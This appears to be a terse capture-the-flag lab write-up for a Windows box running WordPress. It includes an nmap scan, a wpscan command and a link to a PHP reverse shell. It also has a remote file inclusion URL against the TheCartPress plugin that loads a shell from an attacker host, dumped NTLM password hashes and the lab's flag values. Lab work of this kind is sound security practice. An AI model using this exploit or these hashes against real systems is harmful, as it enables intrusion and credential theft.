









# BOATS



## NMAP SCAN

```text
PORT      STATE SERVICE            REASON          VERSION
80/tcp    open  http               syn-ack ttl 127 Apache httpd 2.2.11 ((Win32) DAV/2 mod_ssl/2.2.11 OpenSSL/0.9.8i PHP/5.2.9)
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
|_http-favicon: Unknown favicon MD5: 3BD2EC61324AD4D27CB7B0F484CD4289
|_http-generator: WordPress 4.0.1
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.2.11 (Win32) DAV/2 mod_ssl/2.2.11 OpenSSL/0.9.8i PHP/5.2.9
|_http-title: Boats | Boats
135/tcp   open  msrpc              syn-ack ttl 127 Microsoft Windows RPC
139/tcp   open  netbios-ssn        syn-ack ttl 127 Microsoft Windows netbios-ssn
443/tcp   open  ssl/https?         syn-ack ttl 127
445/tcp   open  microsoft-ds       syn-ack ttl 127 Microsoft Windows Server 2008 R2 - 2012 microsoft-ds
3306/tcp  open  mysql              syn-ack ttl 127 MySQL (unauthorized)
3389/tcp  open  ssl/ms-wbt-server? syn-ack ttl 127
5985/tcp  open  http               syn-ack ttl 127 Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
47001/tcp open  http               syn-ack ttl 127 Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
49152/tcp open  msrpc              syn-ack ttl 127 Microsoft Windows RPC
49153/tcp open  msrpc              syn-ack ttl 127 Microsoft Windows RPC
49154/tcp open  msrpc              syn-ack ttl 127 Microsoft Windows RPC
49155/tcp open  msrpc              syn-ack ttl 127 Microsoft Windows RPC
49161/tcp open  msrpc              syn-ack ttl 127 Microsoft Windows RPC
49163/tcp open  msrpc              syn-ack ttl 127 Microsoft Windows RPC
49164/tcp open  msrpc              syn-ack ttl 127 Microsoft Windows RPC
```

## PORT 80 ENUMERATION





### WPSCAN

```text
wpscan --url http://172.31.1.14
```









* REMOTE FILE INCLUSION



* USE THIS PHP REVERSE SHELL

```text
https://github.com/Dhayalanb/windows-php-reverse-shell/blob/master/Reverse%20Shell.php
```

## EXPLOIT

```text
http://172.31.1.14/wp-content/plugins/thecartpress/checkout/CheckoutEditor.php?tcp_save_fields=true&tcp_class_name=asdf&tcp_class_path=http://10.10.0.63:8000/shell.php
```



## CREDS

```text
Administrator:500:aad3b435b51404eeaad3b435b51404ee:cb59ae94bb3470a4aae24af84ce9f2de:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
james:1009:aad3b435b51404eeaad3b435b51404ee:d0f2c5b3610573ca589e7020f8ebef53:::
```

## FLAGS

### USER

```text
8c9dfcf7863de5e0d58c62488a21f74d
```

### ROOT

```text
012f2c008bb3f472eef80963f6d359c8
```


